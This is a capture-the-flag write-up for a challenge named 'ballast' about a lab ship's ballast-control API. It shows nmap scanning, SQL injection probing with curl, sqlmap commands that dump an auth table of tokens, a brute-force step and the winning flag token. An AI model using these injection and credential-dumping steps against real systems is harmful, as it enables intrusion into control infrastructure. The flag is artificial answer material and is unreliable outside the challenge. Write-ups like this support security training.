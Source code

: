 # ballast

## Challenge

```
We need as many options to stop this boat as we can find! If you can figure out a way to sabotage it instead of just taking control of the navigation, that'll work too!

Target: Your target is the authorization code to control the ballast system.

10.0.1.11
```

## Walkthrough

```sh
$ sudo nmap 10.0.1.11 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.11
Discovered open port 31968/tcp on 10.0.1.11
Discovered open port 3002/tcp on 10.0.1.11
...
3002/tcp  open  http        nginx
|_http-title: OpenBridge :: Index
...
31968/tcp open  ssl/unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
...
```

There were 2 HTTP servers running on the machine. Visting each server showed that `:3002` was running a different challenge. `:31968` was what I nedeed to exploit.

Navigating to `:31968` provided a convenient swagger definitions page behind a warning page due to the self signed certificate.

![get](get.png)
![post](post.png)

Clearly I needed to exploit the `GET /ballast` in order to find the auth token.

I played around with some different invalid inputs to get a feel for what I thought that exploit might be.


```sh
$ curl -k 'https://10.0.1.11:31968/ballast?rt=123' 
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=abcd'
[]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=--abcd'
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]   
```

After noticing that an invalid input lead to an empty json array I tried placing the string after an SQL comment `--`. This worked, giving away that the issue was likely SQLI.

To exploit the SQLI I brought out `sqlmap`, an automatic SQLI exploiting tool. I had to run it through an HTTP proxy since `sqlmap` doesn't support an insecure mode where certificates aren't checked.

```sh
$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 --tables
...
[2 tables]
+--------+
| auth   |
| sensor |
+--------+
...

$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 -T auth
...
Table: auth
[31 entries]
+------------------+------+
| auth             | code |
+------------------+------+
| 7c891300d29ee171 | 1    |
| d4e26453da9da0da | 2    |
| c4bb7fbedcd289f9 | 3    |
| f2fa13a69c41edd3 | 4    |
| 5a834caf9aa572f2 | 5    |
| 265f6855da808fee | 6    |
| af0a0ebbd8d06805 | 7    |
| 1a3bdc9e354595b3 | 8    |
| 0dcded01a3ef45b3 | 9    |
| 396324979803a664 | 10   |
| 87fd4e2c33578122 | 11   |
| ba418662d921ca86 | 12   |
| 274d080f89b03da1 | 13   |
| 6433c4059f5ac1d5 | 14   |
| 4110cf37d60ac7a5 | 15   |
| b6af0a74f1787e3a | 16   |
| 162aebf2755e2f42 | 17   |
| 6d2af8874200f1f7 | 18   |
| fe142ee05fbdf046 | 19   |
| c17a5d2a0857c687 | 20   |
| 7b3ced5924e1beed | 21   |
| 7245a54b379f996a | 22   |
| 5180e6aaa397fb6a | 23   |
| 17d3cf64165ac676 | 24   |
| 60d9051cbc7df99e | 25   |
| c661182f67edb4a8 | 26   |
| 4af257c2e1529722 | 27   |
| b5ea4144e885b1db | 28   |
| 7a92ebfcd8e93047 | 29   |
| a4f494fa78df7a39 | 30   |
| 61e521c49e0d13a5 | 31   |
+------------------+------+
...
```

And this is where I ran out of time :( However I continued to solve the challenge after the timer was up.

I created a python script to try every auth token and find which was correct.

[authcheck.py](authcheck.py)

```
$ python3 authcheck.py
...
b6af0a74f1787e3a 202
```

So close!

## Solve

token: `b6af0a74f1787e3a`
